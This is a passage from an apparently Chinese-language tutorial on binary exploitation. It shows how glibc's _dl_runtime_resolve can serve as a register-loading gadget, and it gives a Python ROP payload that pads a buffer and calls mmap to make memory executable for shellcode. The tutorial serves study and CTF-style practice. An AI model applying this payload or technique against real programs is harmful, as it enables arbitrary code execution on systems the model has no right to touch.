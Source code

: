 ```bash
0x7ffff7def24c <_dl_runtime_resolve+76>:    mov     rdx,QWORD PTR [rsp+0x10]
0x7ffff7def251 <_dl_runtime_resolve+81>:    mov     rcx,QWORD PTR [rsp+0x8]
0x7ffff7def256 <_dl_runtime_resolve+86>:    mov     rax,QWORD PTR [rsp]
0x7ffff7def25a <_dl_runtime_resolve+90>:    add     rsp,0x48
0x7ffff7def25e <_dl_runtime_resolve+94>:    jmp     r11
```
> * 可以通过函数的PLT确定_dl_runtime_resolve()地址，其中PLT[2]中跳转的地址就是_dl_runtime_resolve()地址
> * 要利用这个gadget，我们还需要控制rax的值，因为gadget是通过rax跳转的：
    0x7ffff7def235 <_dl_runtime_resolve+53>:    mov    r11,rax
    ……
    0x7ffff7def25e <_dl_runtime_resolve+94>:    jmp    r11

------

# 利用mmap执行任意shellcode
mmap或者mprotect将某块内存改成RWX，然后将shellcode保存到这块内存，然后控制pc跳转过去就可以执行任意的shellcode了。
```python
#mmap(rdi=shellcode_addr, rsi=1024, rdx=7, rcx=34, r8=0, r9=0)
#参数传递从linker_addr + 0x35开始
#需要先pop rax,ret,且使rax=mmap_addr
#r9,r8,rdi,rsi,rdx,rcx,rax
#最后需要(0x48-8*6)/8 = 3Byte padding
payload3 =  "\x00"*136
payload3 += p64(pop_rax_ret) + p64(mmap_addr)
payload3 += p64(linker_addr+0x35) + p64(0) + p64(34) + p64(7) + p64(1024) + p64(shellcode_addr) + p64(0) + p64(0) + p64(0) + p64(0) 
```
